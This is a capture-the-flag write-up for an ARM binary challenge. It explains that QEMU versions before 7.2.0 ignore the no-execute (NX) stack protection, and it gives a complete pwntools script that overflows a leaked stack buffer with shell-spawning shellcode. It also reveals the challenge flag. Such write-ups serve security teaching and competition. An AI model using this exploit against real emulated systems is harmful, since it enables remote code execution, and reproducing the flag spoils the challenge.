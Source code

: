 # Good Emulation

Author: `nhwn`

I enabled NX...right?

## Solution

This challenge exploits a ~~bug~~ undocumented(?) feature in QEMU versions before v7.2.0 where NX is not respected. The binary distributed for this challenge is built with the following mitigations:
```
Arch:     arm-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x10000)
```

In particular, NX is "enabled". Running the binary with QEMU further reinforces this lie; the printout of `/proc/self/maps`, which shows the mapped memory of the process, clearly shows that the stack is non-executable. However, we can just send an off-the-shelf shellcode payload to get a shell on the remote (this can also be checked with the provided QEMU build in `dist.Dockerfile`):

```python
from pwn import *

context.arch = "arm"

p = remote("localhost", 1337)
p.recvuntil(b"at ")
buf = int(p.recvlineS(), 16)
payload = asm(shellcraft.sh()).ljust(132, b"A")
p.sendline(payload + p64(buf))
p.interactive()
```

It's also very winnable to do this via ROP since the binary is statically linked, but this is obviously the easier solution.

Flag: `gigem{q3mu_wh4t_th3_fl1p}`
